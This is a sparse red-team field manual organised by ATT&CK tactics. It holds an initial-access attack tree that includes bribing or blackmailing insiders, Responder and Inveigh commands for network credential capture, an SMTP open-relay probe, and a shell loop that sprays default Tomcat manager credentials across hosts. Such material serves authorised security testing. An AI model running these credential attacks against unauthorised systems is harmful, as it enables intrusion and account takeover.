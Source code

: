 
# Security Testing Field Manual

Introduction and purpose.

# Operational Considerations

## Goals

List of possible goals.

## Operation Planning

```
1. Set goal(s): objectives to accomplish
2. Combine various tactics to achieve your operational goal(s)
3. Select appropriate tachniques (and choose suitable tools) to achieve your tactical goals
```

## Toolbox

# Tactical Objectives

## Ops-Sec Considerations ([PRE-ATT&CK: TA0021](https://attack.mitre.org/tactics/TA0021/))

## Attack Infrastructure ([PRE-ATT&CK: TA0022](https://attack.mitre.org/tactics/TA0022/))

## Getting Access ([ATT&CK: TA0001](https://attack.mitre.org/tactics/TA0001/))

*Tactical goal: get IP address in target's internal network*

Possible techniques (in a form of attack tree):

```
1. [OR] Social Engineering
1.1. [OR] Delivery of phishing email/message
1.1.1. Malicious link (T1192)
1.1.2. Malicious attachment (T1193)
1.1.3. Malicious social media message (T1194)
1.2. Drive-by compromise (T1189)
1.3. [OR] "Tasking" insider to plant connect-back implant
1.3.1. by fooling him (e.g. run it for me; print doc from this USB)
1.3.2. by bribing him
1.3.3. by blackmailing him
1.4. Fooling insider to reveal his credentials (T1078)
...

2. [OR] Breaching the perimeter/DMZ
2.1. Exploit Public-Facing Application (T1190)
2.2. Exploit remote access mechanism (T1133)
...

3. [OR] Proximity attacks
3.1. Hacking into wireless network
3.2. Using USB drive drops (T1091)
3.3. [OR] Breaching physical perimeter
3.3.1. Plant drop-in device and plug it into network
3.3.2. Plant USB device and plug it to existing machine
...

4. [OR] Exploiting Trusted Relationship (T1199)
4.1. [OR] Hack 3rd party entity that delivers service to target (T1195)
4.1.1. Open source Software supplier 
4.1.2. Commercial Software supplier 
4.1.3. Hack company that provides services to the target
4.1.4. Hack target's contractor worker
4.2. [AND] Hack "to be acquired" company
4.2.1. Get knowledge about near aquisitions
4.2.1. Hack the company that is going to be acquired 
4.3. [AND] Build trust relationship with the target
4.3.1. Work as a contractor for the target
4.3.2. Exploit the trust that was built
...
```

## Discovery ([ATT&CK: TA0007](https://attack.mitre.org/tactics/TA0007/))

*Tactical goal: Understand the target environment*

### Understanding the network

```
What's the network topology? Is it flat?
Where are egress points?
Where are "multi-homed" boxes?
```

## Credential Access ([ATT&CK: TA0006](https://attack.mitre.org/tactics/TA0006/))

*Tactical goal: Acquire valid set of credentials*

## Lateral Movement ([ATT&CK: TA0008](https://attack.mitre.org/tactics/TA0008/))

# Techniques (Discovery)

## Network Sniffing ([ATT&CK: T1040](https://attack.mitre.org/techniques/T1040/))

Sniffing:

```
```

Passive OS fingerprinting:

```
# Linux
screen -L -d -m responder -I eth0 -A -f

# Windows
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -Inspect Y
```

# Techniques (Credential Access)

# Techniques (Lateral Movement)

## Vulnerable/misconfigured Remote Services (T1021 / T1210)

### SMTP service

Ports:

    TCP: 25,587,465

Implementations:

    https://en.wikipedia.org/wiki/List_of_mail_server_software#SMTP

Common misconfiguration: SMTP Open Relay

```
HELO ABC
MAIL FROM: foo@domain.com
RCPT TO: bar@domain.com
DATA
Testing for SMTP open relay issue.
.
QUIT
```

Noteworthy vulnerabilities:

```
```

## Vulnerable/misconfigured HTTP/HTTPS Services (T1021 / T1210)

### Apache Tomcat: default/weak credentials

```
Use `auxiliary/scanner/http/tomcat_mgr_login`
```

OR (if many different ports are used)
	```
		Prereq: Nmap scan results imported to msf

		msf> services -S Coyote -c port -o /tmp/tomcat.csv
		$ for i in $(cat /tmp/tomcat.csv | tr -d '"' | tr ',' ':'); do echo "http://$i/manager/html"; done > tomcat-urls.txt

		$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown

		$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults.txt

		$ while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults.txt); do curl -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"; echo; done; done < tomcat-urls.txt > tomcats-results.txt
	```
